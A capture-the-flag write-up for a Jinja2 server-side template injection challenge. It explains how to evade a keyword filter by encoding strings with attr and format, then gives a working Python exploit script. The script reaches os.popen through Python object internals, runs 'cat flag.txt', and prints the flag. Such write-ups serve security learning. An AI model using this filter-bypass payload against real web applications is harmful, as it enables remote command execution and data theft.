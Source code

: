 - Because they filter most of word that can ssti so we need to use attr and format to generate the string to bypass this.
- Example: `attr("%c%c%c%c%c%c%c%c%c%c%c%c"|format(99,97,116,32,102,108,97,103,46,116,120,116))` is generate to `cat flag.txt`
- The final exploit script:
``` python!
import requests

def gen(p):
    num_c = len(p)

    chrs = ""

    for i in p:
        chrs += str(ord(i)) + ","
    chrs = chrs[:-1]

    return f'attr(\"{"%c"*num_c}\"|format({chrs}))'

# Define the URL and query parameters
url = 'http://localhost:1338'
payload = f'{{()|{gen("__class__")}|{gen("__base__")}|{gen("__subclasses__")}() | {gen("__getitem__")}(367) | {gen("__init__")} | {gen("__globals__") } | {gen("__getitem__")}("o""s")|attr("po""pen")("%c%c%c%c%c%c%c%c%c%c%c%c"|format(99,97,116,32,102,108,97,103,46,116,120,116))|attr("re""ad")()}}'
params = {
    'c': payload
}

# Define the headers
headers = {
    'Host': 'localhost:1338',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'en-US,en;q=0.9',
    'Connection': 'close'
}

# Send the GET request
response = requests.get(url, params=params, headers=headers)

# Check the response
if response.status_code == 200:
    print(response.text)
else:
    print(f"Request failed with status code: {response.status_code}")

#ISITDTU{tough_times_create_tough_guys!@@%#0@}
```
Flag: `ISITDTU{tough_times_create_tough_guys!@@%#0@}`

